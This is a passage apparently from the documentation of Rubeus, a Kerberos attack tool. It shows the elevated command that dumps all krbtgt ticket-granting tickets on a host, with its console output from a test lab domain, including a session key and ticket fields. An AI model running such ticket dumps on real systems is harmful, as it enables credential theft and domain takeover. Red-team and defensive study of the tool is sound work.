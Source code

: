         Base64EncodedTicket      :

        doIFNjCCBTKgAwIBBaEDAgEWoo...(snip)...

        ...(snip)...


    [*] Enumerated 3 total tickets
    [*] Extracted  3 total tickets


**Elevated** extraction of all TGTs on a system:

    C:\Rubeus>Rubeus.exe dump /service:krbtgt

     ______        _                      
    (_____ \      | |                     
     _____) )_   _| |__  _____ _   _  ___ 
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3



    [*] Action: Dump Kerberos Ticket Data (All Users)

    [*] Target service  : krbtgt


    UserName                 : harmj0y
    Domain                   : TESTLAB
    LogonId                  : 0x47869cc
    UserSID                  : S-1-5-21-883232822-274137685-4173207997-1111
    AuthenticationPackage    : Negotiate
    LogonType                : Interactive
    LogonTime                : 2/11/2019 11:05:31 PM
    LogonServer              : PRIMARY
    LogonServerDNSDomain     : TESTLAB.LOCAL
    UserPrincipalName        : harmj0y@testlab.local

        [*] Enumerated 3 ticket(s):

        ServiceName              : krbtgt/TESTLAB.LOCAL
        TargetName               : krbtgt/TESTLAB.LOCAL
        ClientName               : harmj0y
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : rc4_hmac
        Base64SessionKey         : y4LL+W3KZoOjnwsiwf150g==
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
        StartTime                : 2/11/2019 3:23:50 PM
        EndTime                  : 2/11/2019 8:19:13 PM
        RenewUntil               : 2/18/2019 3:19:13 PM
        TimeSkew                 : 0
        EncodedTicketSize        : 1306
        Base64EncodedTicket      :
